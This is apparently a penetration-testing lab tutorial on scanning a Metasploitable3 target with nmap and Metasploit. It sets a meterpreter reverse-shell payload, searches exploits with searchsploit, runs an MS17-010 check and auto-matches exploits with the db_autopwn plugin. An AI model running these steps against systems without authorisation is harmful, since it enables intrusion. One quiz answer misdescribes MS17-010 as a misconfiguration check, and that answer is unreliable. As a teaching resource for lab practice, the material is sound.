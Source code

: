 # 🔍 Vulnerability Scanning with Metasploit Framework (MSF)

## 🌟 Objective
Explore the process of performing vulnerability scans using **Metasploit Framework**.

---

## 💻 Lab Environment
- Target: **Metasploitable3**
- Attacker: On **same local network**

---

## 🛠️ Vulnerability Scanning
- Scan a system for known vulnerabilities  
- Check if the discovered vulnerabilities are **exploitable**

---

## ⚙️ Step-by-Step Demo

### 🔎 Step 1: Identify Target IP
Run a ping scan to find live hosts:
```bash
sudo nmap -sn 10.10.10.1/24
```
To check your attacking IP:
```bash
ip a s
```

---

### 🧰 Step 2: Start Metasploit + Setup
1. Ensure PostgreSQL service is running  
2. Start Metasploit console:
```bash
msfconsole
```
3. Confirm DB connection:
```bash
db_status
```
Expected output:
```
Connected to msf. Connection type: postgresql.
```
4. Set target IP globally:
```bash
setg RHOSTS 10.10.10.4
setg RHOST 10.10.10.4
```
5. Create and switch to workspace:
```bash
workspace -a MS3
```
6. Perform full scan (SYN, service & OS detection):
```bash
db_nmap -sS -sV -O 10.10.10.4
```
7. Check OS info:
```bash
hosts
```
8. View discovered services:
```bash
services
```

---

### 🪨 Step 3: Search & Use Exploits
1. Search for available exploits:
```bash
search type:exploit name:Microsoft IIS
```
2. Use desired module:
```bash
use <module_path>
```
3. Set payload (if needed):
```bash
set payload windows/meterpreter/reverse_tcp
```
4. View module info:
```bash
info
```
5. Check required options:
```bash
show options
```
6. Analyze vulnerabilities:
```bash
analyze
```
7. Detect known vulnerable services:
```bash
vulns
```

---

## 🛠️ Using Built-in Exploit Search (SearchSploit)

### 🔎 Step 1: Search Exploits
```bash
searchsploit "Microsoft Windows SMB"
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
```

### ⚠️ Before Running:
Check required settings:
```bash
show options
```

| Field     | Meaning                           |
|-----------|-----------------------------------|
| RHOSTS / RHOST | Target IP(s)                    |
| LHOST / LPORT | Local listener IP and port      |
| SESSION    | Which session to use              |

### ▶️ Step 2: Run Module
```bash
run
```
Sample output:
```bash
[+] 10.10.10.4:445 - Host is likely VULNERABLE to MS17-010!
```

---

## 🔌 Plugin: `db_autopwn`

### ⚙️ Step 1: Setup
1. Find **metasploit-autopwn** plugin on GitHub  
2. Download/clone it to local machine  
3. Move to MSF plugin directory:
```bash
cd Downloads/
sudo mv db_autopwn.rb <path_to_msf_plugins>
```

### 🥈 Step 2: Load Plugin in MSF
```bash
msf6> load db_autopwn
```

### 🔄 Commands:
```bash
db_autopwn
db_autopwn -p -t
db_autopwn -p -t -PI 445
```
> `-p`: match modules by open ports  
> `-t`: show all matching exploit modules  
> `-PI`: specify ports

> ⚠️ Errors may show — it's okay to ignore for now.

---

## 🧪 Test Your Knowledge

1. **Q**: Which command imports Nmap scan results into MSF?  
   **A**: `db_nmap`

2. **Q**: Primary purpose of vulnerability scanning in MSF?  
   **A**: To identify & exploit matching modules

3. **Q**: What does the SMB MS17-010 module check?  
   **A**: Common SMB misconfigurations

4. **Q**: Which plugin matches exploits to open ports?  
   **A**: `db_autopwn`

5. **Q**: What should you confirm before exploiting?  
   **A**: Target's service version info

---

## 📝 Memo / Notes

### 🔢 Info Needed for Exploitation:
- Service version
- OS type
- Open ports

### 📂 PostgreSQL (Used by MSF)
- Open-source RDBMS
- Used by Metasploit to store:
  - Scan results
  - Loot (e.g., credentials)
  - Exploit/session history

### 🔍 Identifying Real MSF Modules
Valid if listed with:
- `exploit/...`
- `auxiliary/...`
- `post/...`
- `scanner/...`
- `payload/...`

### 🔹 `db_autopwn` Flags:
- `-p` : Select modules based on open ports  
- `-t` : Show all matching modules  
- `-PI`: Specify ports

